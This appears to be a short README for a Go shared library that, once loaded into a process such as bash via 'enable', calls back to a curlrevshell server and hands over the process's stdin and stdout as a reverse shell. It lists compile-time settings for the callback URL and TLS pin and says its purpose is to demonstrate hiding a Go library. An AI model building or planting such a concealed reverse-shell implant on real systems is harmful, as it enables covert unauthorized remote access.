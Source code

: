 `curlrevshell_https`
===================
When loaded, perhaps with bash's `enable`, connects back to
[curlrevshell](https://github.com/magisterquis/curlrevshell) and hooks up the
process's stdio to curlrevshell's `/io` URL path.

Meant to demonstrate hiding a Go library.

Config
------
Two variables may be set at compile-time using Go's `-ldflags '-X Var=Value'`:

Var | Value
-|-
PinnedPubKey | Curlrevshell's Base64'd SHA256'd TLS fingerprint, with or without `sha256//`
URL          | Curlrevshell's URL, e.g. `https://you/io`.

Quirks
------
The process should expect stdin to be a pipe, or at least not try to seek.  In
bash, this usually means loading the library with something like
```sh
exec 0<<<"enable ./x.so"
```
